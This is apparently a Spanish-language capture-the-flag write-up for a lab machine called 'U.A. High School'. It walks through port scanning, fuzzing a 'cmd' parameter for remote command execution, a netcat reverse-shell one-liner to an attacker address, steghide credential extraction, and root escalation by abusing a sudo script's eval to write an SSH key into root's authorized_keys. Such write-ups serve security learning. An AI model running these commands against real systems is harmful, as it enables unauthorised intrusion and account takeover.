






<div align="center">
    
</div>

<div align="center">

# U.A. High School <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [ **RCE** ] |

</div>

## Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Investigando servicio web](#investigando-servicio-web)
- [Shell con www-data](#shell-con-www-data)
- [Shell con deku](#shell-con-deku)
- [Shell con root - Escalada de privilegios](#shell-con-root---escalada-de-privilegios)


### Escaneos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv  10.114.170.162 -oG target.log
```

```log
# Nmap 7.95 scan initiated Mon Nov  2 21:13:59 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG target.log 10.114.170.162
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.114.170.162 ()	Status: Up
Host: 10.114.170.162 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Mon Nov  2 21:14:18 2026 -- 1 IP address (1 host up) scanned in 18.29 seconds
```

```shell
nmap -p22,80 -sV -sC -vvv 10.114.170.162 -oN openPorts.log
```

```log
# Nmap 7.95 scan initiated Mon Nov  2 21:14:56 2026 as: nmap -p22,80 -sV -sC -vvv -oN openPorts.log 10.114.170.162
Nmap scan report for uahighschool.thm (10.114.170.162)
Host is up, received echo-reply ttl 62 (0.085s latency).
Scanned at 2026-11-02 21:14:56 CET for 9s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 83:d8:93:ce:d9:5b:52:a6:76:00:e9:8e:20:eb:e5:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDDMVEKtw0fhjYesMljeO2lopoX86eYSJPcZ2aB6KvOn6sCWbibx7xPads+pSuokr25JNSzdf1TCupPsoZEwpDwXtcjm0MzJfx3VLgNAboBwvnPJ8nNrDCa9uotTmUsPJ1D84fEJMahSmixnLX+KIw2ms1inKggG8FnftB0akgMUqp3vTXrMeGI/qoL4Ksz5EC6x48Oe6Tkm7unTZeApK9mEdkGOYZbEDiXj+GC4i/QglgkD3QBDmFFCpFk3Tu1fSIssAwveLBsmzd/zH7tFpIOBfL+64VCsB2pzFz1ZAnqA3i+r9Xfcr6gKIIyK7jYLTAKzGbeT5oZ4yasAcZdAly6VpJEy3Cz3UTfgT1fB7sL96Gf42IbAn02+iiQhDeeqs7iYGAn+WvA0YrzQgYsj60IvwT1nzEOuW1gY5pvxiFDYQ6x7YXfCVT2t5sOsvRZAr53eM7l/pOyLi7djB41BUPnbq6UqJNtuTXm27APwOQCmJPYdN/E0mkJXjxmd6oWcd0=
|   256 33:08:be:07:6d:92:bb:ed:69:a9:03:f8:e7:99:20:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFSNz7iUT/0778Y7LzSid2/uW9IbvwQyiJrd9e/YVKnvE9cI9HUeQSd/pR1dtevFgkWte7laV0qDmYWP0R8XYyU=
|   256 64:3a:de:a5:e5:c2:bd:d9:b9:7d:d5:95:25:32:ad:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINuX1Zk+8iiNNsDi8qZKbdqoh0aqzdDlW2eWQC91F9b3
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  2 21:15:05 2026 -- 1 IP address (1 host up) scanned in 9.71 seconds
```

### Investigando servicio web

Tenemos un servidor Apache 2.4.41 corriendo por el puerto 80. Podríamos asumir que el lenguaje del servidor es PHP. Además de varias rutas en la página de inicio.

<div align="center">
    
    <br>
    <em>Página de inicio</em>
    <br><br>
    
    <br>
    <em>Rutas en la página web</em>
</div>

<br><br>

Tras una larga búsqueda por toda la web y múltiples escaneos, hubo algo que llamó mi atención, la ruta `/assets/` retornaba **Status Code 200**, así que decidí interceptar la solicitud con `Burpsuite` y sacar las cookies que asigna el servidor en una solicitud, la respuesta viene con el Header `Set-Cookie`, lo que me hace pensar que esta ruta en particular está sirviendo archivos así como la ruta principal `/`. Hacemos una solicitud a `/assets/index.php`, simplemente hacemos una solicitud a `/assets/index.php` y vemos que está respondiendo `200 OK`

<div align="center">
        
        <br>
        <em>Captura de la solicitud</em>
        <br><br>
        
        <br>
        <em>Respuesta a la solicitud</em>
        <br><br>
        
        <br>
        <em>Solicitud a <strong>index.php</strong></em>
</div>

<br><br>

### Shell con www-data

Ahora que tenemos eso lo primero que decido intentar es si existe un parámetro vulnerable y encuentro en en la ruta descubierta anteriormente si hay el parámetro `cmd` el cual acepta comandos de la Shell, así que estamos ante un **RCE**

```shell
❯ ffuf -u 'http://uahighschool.thm/assets/index.php?FUZZ=id' -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 200 -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://uahighschool.thm/assets/index.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 90ms]
```

<br>

```shell
❯ curl -s 'http://uahighschool.thm/assets/index.php?cmd=id'
dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK%                                                     ❯ curl -s 'http://uahighschool.thm/assets/index.php?cmd=id' | base64 -d
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<br>

Perfecto, directamente le envío una Shell Reverse y entramos a la máquina. En mi máquina atacante:

```shell
❯ curl -s -G 'http://uahighschool.thm/assets/index.php' --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.137.54 4444 >/tmp/f'
```

<br>

```shell
❯ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.114.170.162 58306
sh: 0: can't access tty; job control turned off
$ whoami;id;groups;pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/html/assets
$ 
```

<br>

Voy al directorio `images/` en la ruta del servidor Apache y noto que hay una imagen bastante curiosa que no es usada en la página, así que decido traerla a mi Host e inspeccionarla un poco: 

```
❯ file oneforall.jpg
oneforall.jpg: data
❯ exiftool oneforall.jpg
ExifTool Version Number         : 13.25
File Name                       : oneforall.jpg
Directory                       : .
File Size                       : 98 kB
File Modification Date/Time     : 2023:07:09 18:42:05+02:00
File Access Date/Time           : 2026:11:02 22:32:58+01:00
File Inode Change Date/Time     : 2026:11:02 22:32:58+01:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Warning                         : PNG image did not start with IHDR
```

<br>

Si retrocedemos un poco en la jerarquía de directorios notaremos un directorio bastante curioso en la ruta `/var/www/Hidden_Content/passphrase.txt` que tiene una 'passphrase' codificada en base64:

```
www-data@ip-10-114-170-162:/var/www/Hidden_Content$ cat passphrase.txt 
QWxsbWlnaHRGb3JFdmVyISEhCg==
-dw-data@ip-10-114-170-162:/var/www/Hidden_Content$ cat passphrase.txt | base64 -d
AllmightForEver!!!
```

<br>

### Shell con deku

Entonces el archivo `passphrase.txt` que encontramos es para extraer archivos embebidos en otros, que en este caso será la imágen que encontramos en el directorio `/images/`. Tras varios intentos, noté que hay que convertir la imagen a formato JPG, no a PNG como sugiere `exiftool`, así que busco contenido en internet para conocer mejor los bytes consiguientes a los 'magic bytes', hay que editar los primeros 8-9 bytes para arreglar la imágen

> [!TIP]
> 
> https://en.wikipedia.org/wiki/List_of_file_signatures

<br>

<div align="center">
        
        <br>
        <em>Magic Bytes originales</em>
        <br><br>
        
        <br>
        <em>Magic Bytes correctos</em>
</div>

<br><br>

Ahora que hemos dejado la foto en condiciones normales y con los 'magic bytes' correctos hacemos un poco de esteganografía con `steghide` y vemos que tiene un archivo `creds.txt` embebido, lo extraemos y tiene las credenciales del usuario **deku** en él. En este punto con la shell reverse deberías saber que este usuario existía en el sistema

```shell
❯ file oneforall.jpg
oneforall.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1140x570, components 3
❯ steghide info oneforall.jpg
"oneforall.jpg":
  format: jpeg
  capacity: 5.4 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "creds.txt":
    size: 150.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
❯ steghide --extract -sf oneforall.jpg
Enter passphrase: 
wrote extracted data to "creds.txt".
❯ cat creds.txt
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:[REDACTED]
```

<br>

Nos cambiamos de usuario a **deku** ingresando por el servicio SSH

```shell
deku@ip-10-113-181-104:~$ whoami;id;groups
deku
uid=1000(deku) gid=1000(deku) groups=1000(deku)
deku
deku@ip-10-113-181-104:~$ ls -la
total 36
drwxr-xr-x 5 deku deku 4096 Jul 10  2023 .
drwxr-xr-x 4 root root 4096 Nov  2 22:45 ..
lrwxrwxrwx 1 root root    9 Jul  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 deku deku  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 deku deku 3771 Feb 25  2020 .bashrc
drwx------ 2 deku deku 4096 Jul  9  2023 .cache
drwxrwxr-x 3 deku deku 4096 Jul  9  2023 .local
-rw-r--r-- 1 deku deku  807 Feb 25  2020 .profile
drwx------ 2 deku deku 4096 Jul  9  2023 .ssh
-rw-r--r-- 1 deku deku    0 Jul  9  2023 .sudo_as_admin_successful
-r-------- 1 deku deku   33 Jul 10  2023 user.txt
deku@ip-10-113-181-104:~$ cat user.txt 
THM{[REDACTED]}
```

<br>

### Shell con root - Escalada de privilegios

Ahora que tenemos el flag 'user.txt', listamos los permisos de Deku y notamos que tiene permisos de ejecución con sudo a un script en el directorio `/opt/NewComponent/feedback.sh`

```shell
deku@ip-10-113-181-104:/opt/NewComponent$ sudo -l
[sudo] password for deku: 
Matching Defaults entries for deku on ip-10-113-181-104:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on ip-10-113-181-104:
    (ALL) /opt/NewComponent/feedback.sh
```

<br>

```shell
deku@ip-10-113-181-104:~$ cd /opt/NewComponent/
deku@ip-10-113-181-104:/opt/NewComponent$ ls -la 
total 12
dr-xr-xr-x 2 root root 4096 Jan 23  2024 .
drwxr-xr-x 3 root root 4096 Jul  9  2023 ..
-r-xr-xr-x 1 deku deku  684 Jan 23  2024 feedback.sh
deku@ip-10-113-181-104:/opt/NewComponent$ file feedback.sh 
feedback.sh: Bourne-Again shell script, ASCII text executable
deku@ip-10-113-181-104:/opt/NewComponent$ cat feedback.sh 
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

<br>

El script está prohibiendo los caracteres: ``` \` ```, `)`, `$(`, `|`, `&`, `;`, `?`, `!`, `\\`  lo que dificulta bastante todo este asunto. Así que intentamos una prueba que finaliza de forma exitosa, esto nos abre paso a escribir en archivos de **root** (ya que podemos ejecutar el script como sudo), así que en mi máquina atacante, creo una llave `rsa` para entrar por el servicio SSH y la introducimos en el archivo `/root/.ssh/authorized_keys`

<br>

PoC:

```shell
deku@ip-10-113-181-104:/opt/NewComponent$ ./feedback.sh 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
test > /tmp/mamamia
It is This:
Feedback successfully saved.
deku@ip-10-113-181-104:/opt/NewComponent$ file /tmp/mamamia
/tmp/mamamia: ASCII text
deku@ip-10-113-181-104:/opt/NewComponent$ cat /tmp/mamamia
test
```

<br>

Llave `rsa`:

```shell
❯ ssh-keygen -t rsa -f id_root
Generating public/private rsa key pair.
Enter passphrase for "id_root" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_root
Your public key has been saved in id_root.pub
The key fingerprint is:
SHA256:ya9wUVaQIgffvMFGtLBYLc9HQ1EMQ8+2jw6stROZ1Uw hellhound@parrot
The key's randomart image is:
+---[RSA 3072]----+
|      ..oo+=B=.  |
|      .++Booo+. E|
|      .oo=X. .++ |
|       . =oo....o|
|        S .. +.  |
|         o .+  o |
|      . . . +.. .|
|       o . o.+   |
|        . . ...  |
+----[SHA256]-----+
❯ chmod 600 id_root
```

<br>

Copiamos la llave `id_rsa.pub` y ejecutamos el script como sudo agregando la clave al archivo `/root/.ssh/authorized_keys`

```shell
deku@ip-10-113-181-104:/opt/NewComponent$ sudo ./feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDSfnJ4ZPhM4W0jbeBy/KFstNDIJy8cESl26v45LBcntnU9qebqzdJ+wexKxt+nWIZ0d+Io0uZfqtbBLMSAf7aYQFBGz8InkVX+t2BoVYG5XmCftjM37s93Rj1EjsPFIrrDrcukU7gCaYh8BYHhDbIHUhFwxVeli0T8oOqXEeWqyw6L70Ll07q+8rVM2Ai3HVsS9M23NgVrNoLEh8QveUeiKYYj5qDhKzhQmYVKxhMcb9yfqX6GSoD8ZEEjzf2r64o1d9GQ2+s0RicakE8KRkqGeXZUqWt+BslyUrPLhPquKyKdu6dVTFY6PucALhzxn2xia4GXI9obYDTO9ennBPKYMhYvq0GYNjg7GWI3BMAg9x6PCLsY3GDwGv8lsTO6FbJg5zQJsRv2vq8jm+x4NjmFDNuP7IRfYeGG0VpFatfNAc5/3ealu5YX4AYMiLt1qM3BMKLPl68pjtpxf9XZhsNqAhE6ss1R9gt8u1fZ20q52g+3js7hEOq3o4AkydQf3vs= hellhound@parrot > /root/.ssh/authorized_keys
It is This:
Feedback successfully saved.
```

<br>

Ahora que tenemos la llave privada y hemos añadido la llave pública en el archivo `authorized_keys` podemos tomar el flag de root:

```shell
root@myheroacademia:~# cat root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{[REDACTED]}
```

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>